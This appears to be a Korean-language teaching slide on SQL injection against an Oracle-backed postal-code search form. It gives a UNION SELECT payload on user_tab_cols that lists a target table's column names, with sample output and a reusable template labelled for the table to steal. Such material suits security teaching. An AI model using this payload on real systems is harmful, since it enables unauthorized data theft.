

생성된 쿼리문

Select zipcode,sido,gugun,dong,bunji
from zipcode
where dong like ‘상도동%’;

0.DD 지식
 테이블명을 검색 DD : tab
 테이블에 존재하는 컬럼 정보 얻는 DD : user_tab_cols

2.정보가 있을 만한 테이블의 컬럼 정보를 얻기

Select zipcode,sido,gugun,dong,bunji
from zipcode
where dong like ‘aaaa‘ union select column_name,’0’,’0’,’0’,’0’ from user_tab_cols where table_name=’emp’ -- %’;

Injection이 되어 실행되면 테이블의 컬럼명이 검색된다. => 탈취할 컬럼명을 얻기
 emno,0,0,0,0
 ename,0,0,0,0
 sal ,0, 0, 0, 0

aaa’ union select column_name,’0’,’0’,’0’,’0’ from user_tab_cols where table_name=‘탈취할 테이블명‘--
동이름

검색